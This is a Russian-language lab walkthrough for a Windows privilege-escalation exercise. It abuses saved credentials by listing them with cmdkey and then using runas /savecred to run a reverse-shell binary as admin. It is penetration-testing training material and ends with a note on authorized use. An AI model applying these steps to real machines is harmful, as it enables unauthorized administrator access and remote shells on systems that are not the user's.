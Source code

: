# 🐾 10. Пароли - Сохраненные учетные данные
---
## 📜 Описание задания
В этом задании мы будем работать с сохраненными учетными данными в Windows. Мы извлечем список сохраненных учетных данных с помощью команды `cmdkey /list` и, если учетные данные для пользователя "admin" не сохранены, запустим скрипт для их добавления. Затем мы используем эти учетные данные для выполнения файла `reverse.exe` с привилегиями администратора.

---
## 🔍 Шаг 1: Проверка сохраненных учетных данных
Сначала проверим список сохраненных учетных данных на машине, используя команду:
`cmdkey /list`

### 📋 Ожидаемый вывод
- Убедитесь, что учетные данные для пользователя `admin` сохранены. Если они отсутствуют, следуйте следующему шагу.
![image](https://github.com/user-attachments/assets/8c761a53-6af4-4ba8-900f-1a41b839e04e)

## 🔑 Шаг 2: Обновление сохраненных учетных данных
Если учетные данные для пользователя `admin` отсутствуют, запустите скрипт `savecred.bat`, чтобы обновить их. Для этого выполните команду:
`C:\PrivEsc\savecred.bat`

### 📋 Ожидаемый вывод
- Убедитесь, что скрипт успешно обновил сохраненные учетные данные.

## 📝 Шаг 3: Выполнение reverse.exe с привилегиями администратора
Теперь используем команду `runas` с сохраненными учетными данными, чтобы выполнить файл `reverse.exe` с привилегиями администратора. Выполните следующую команду:
`runas /savecred /user:admin C:\PrivEsc\reverse.exe`

### 📋 Ожидаемый вывод
- Убедитесь, что файл `reverse.exe` был успешно выполнен с привилегиями администратора и вы получили обратный шелл.
![image](https://github.com/user-attachments/assets/ca1b80a3-a8f2-43a0-b370-7708dd3f119f)

## 🎉 Поздравления!
Вы успешно использовали сохраненные учетные данные для выполнения файла с привилегиями администратора и получения обратного шелла! 🎊

## 📌 Примечания
- Если по какой-то причине сохраненные учетные данные не присутствуют, выполните шаг 2 для их обновления.
- Используйте полученные знания ответственно и только в рамках разрешенных тестов на проникновение.
